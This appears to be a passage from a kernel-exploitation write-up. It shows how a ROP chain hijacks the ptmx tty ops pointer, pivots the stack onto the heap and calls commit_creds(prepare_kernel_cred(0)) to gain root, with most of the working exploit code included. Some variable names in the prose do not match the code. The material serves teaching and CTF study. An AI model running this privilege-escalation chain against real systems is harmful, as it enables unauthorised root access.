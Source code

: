 You will soon know why I have used gadgets like `push_r12_pop_rsp` and `pop_rcx`. (rest everything is required for a standard cc(pkc(0)))

# ROP on Heap

Now that we have the necessary leaks, we can now go ahead and overwrite our `ptx_unix98_ops` with a fake function pointer (our pivot gadget on heap).

```c
void write_rop(){
    //overwrite the same ptx_unix98_ops with address of heap rop chain
    leak_buf[99] = kheap + 0x120;
    leak_buf[16] = push_r12_pop_rsp;

```

We use the previous buffer into which we read our leaks. We see that `ptx_unix98_ops` is at `99th` offset and thus we overwrite it with our `memo+0x120`. We also populate our `memo+0x120` which is at offset `16th` with our `pivot gadget`.

But wait , so how does that pivot actually happen. The reason is, we are calling `ioctl` on the opened `ptmx` , which will internally invoke the `ptx_unix98_ops` function pointer. So, how does this work? For that , we should closely check the arguments of the `ioctl` userspace call.

```c
int ioctl(int fd, int request, char* cmd);
```

Since, the first two arguments are `int`, they're not of much use, but the third argument is a `char *`, which means its a pointer and we fully control it. So now, we should ideally be searching for `push rdx ; pop rsp` gadgets right? Well, what I observed during debugging is that such `push rdx` gadgets are dereferencing registers which are not pointers and also not in our control. Hence , I had to now see which all registers were set to our heap pointer which we pass as argument.

After some debugging , I found that `r12`, `rdx` and `rcx` were set to our heap pointer. Hence , I used the `push r12` gadget which did not compromise with the control flow.

After that, we can nicely pivot to heap and execute our rop chain.

```c
void write_rop(){
    //overwrite the same ptx_unix98_ops with address of heap rop chain
    leak_buf[99] = kheap + 0x120;
    leak_buf[16] = push_r12_pop_rsp;
    puts("[+] Writing ROP now!");
    //building rop now
    unsigned long *rop = &leak_buf[0];
    *rop++ = pop_rdi;
    *rop++ = 0;
    *rop++ = prepare_kernel_cred;
    *rop++ = pop_rcx;
    *rop++ = 0;
    *rop++ = mov_rdi_rax;
    *rop++ = commit_creds;
    *rop++ = kpti_trampoline;
    *rop++ = 0; //rdi
    *rop++ = 0; //rax
    *rop++ = (unsigned long)priv_esc;
    *rop++ = user_cs;
    *rop++ = user_rflags;
    *rop++ = user_sp;
    *rop++ = user_ss;
    lseek(fd,0x100,SEEK_SET);
    write(fd,leak_buf,0x400);
    ioctl(ptmx,0xcafebabe,kheap+0x100-0x8);
}
```
